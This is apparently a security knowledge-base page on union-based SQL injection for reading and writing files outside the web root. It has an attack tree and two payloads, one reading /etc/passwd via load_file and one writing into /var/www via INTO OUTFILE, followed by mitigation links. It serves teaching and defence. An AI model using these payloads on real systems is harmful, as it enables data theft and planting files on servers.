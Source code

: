 # Read and write local files outside of www root

## Attack tree

```text
1 SQL injection extract data from 
    1.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    1.2 Find the amount of columns (AND)
    1.3 Find which columns accept queries (AND)
    1.4 Build an UNION SELECT SQL segment
    1.5 Inject SQL statements into the column
    1.4 Post exploitation
```
## Example SQL segments

Read file:
```text
-1' UniOn selEct 1,load_file('/etc/passwd') /*
```

Write file (only works with permission to write to `/var/www/` of course, otherwise use `/tmp/`):
```text
-1' UniOn selEct null,'example,example' inTo outfile '/var/www/example.txt' /*
```

## Notes

Union-based SQL injection is the most common of all the SQL injections. It uses the UNION statement to integrate two or 
more SELECT statements in a SQL query thereby obtaining data illegally from the database.

## Cheatsheets
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [Union SQLi queries](cheatsheets:docs/databases/union-select)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterisation)
* [Input validation](app-mitigations:docs/databases/input)
